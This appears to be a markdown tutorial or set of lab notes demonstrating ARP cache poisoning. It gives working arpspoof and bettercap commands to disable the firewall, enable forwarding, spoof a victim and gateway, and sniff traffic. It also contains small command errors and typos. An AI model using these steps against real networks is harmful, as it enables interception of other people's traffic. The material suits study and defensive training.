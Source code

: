 ## ARP Cache poisoning / Arp Spoofing

## demo
1) We will get the mac of our gateway 2)
2) We will get our linux machine mac 
	- a) arp -g 
3) Enable ip forward 
	- a) sudo sysctl net.ipv4.ip_forward=1 
4) Disable Firewall 
	- a) sudo ufw disable 
5) Start the spoofing with arpspoof tool 
	- a) Arpspoof -i interface -t target -r defaultgatewayip 
- **NOTE**: 
	- ip of attacker: 192.168.1.8 
	- Ip of victim: 192.168.1.3 
	- gateway : 192.168.1.1
- On **windows** you can get **victim ip** and **gateway**:
```c
ps D:\Users>  arp -g

Interface: 192.168.1.3 --- 0x24
  Internet Address    Physical Address     Type
  192.168.1.1         30:dc:44:a7:43:cf    dynamic
  192.168.1.255       a2:cd:ff:cb:73:dc    static
  224.0.0.2           30:dc:44:a7:43:cf    static
  ...                 ...                  ...
```
- Check the mak also!!
- In **linux**:
```
~>$	  sudo systemctl net.ipv4.ip_forward=1       #allow forwarding
~>$	  sudo ufw disable                       #stop firewall
~>$	  sudo arpspoof -i wlan0 -t 192.168.1.3 -r 192.168.1.1
```
After i started the arpspoof now the mac of the gateway is same with the attacker/kali machine.
- look in wireshark.

## Demo in advance

1) Install bettercap 
2) Start bettecap 
3) Scan the network 
	- a) `net.probe on `
	- b) `net.show` => to see the network 
4) Start arp spoofing 
	- a) `set arp.spoof.targets <ip>` 
	- b) `set arp.spoof.fullduplex true` 
	- c) `arp.spoof on` 
5) Enable Forwarding and Disable Firewall 
	- a) `sudo sysctl net.ipv4.ip_forward=1`
	- b) `sudo ufw disable`
6) Start Mitm 
	- a) `net.sniff on`
	- b) `net.sniff off`
- The `net.show` will display every information we got about the hosts joined in the network. 
- For this Demo, We are going to Attack a windows Computer. 
	- **Attacker**(kali): 192.168.1.8 
	- **Victim**(win): 192.168.1.9 
	- **Gateway**: 192.168.1.1
```bash
~>$   sudo apt install bettercap
~>$   sudo bettercap -iface wlan0     # gives new bettercap terminal
192.168.1.0/24 > 192.168.1.8 >>   net.probe on       # Scan the network
```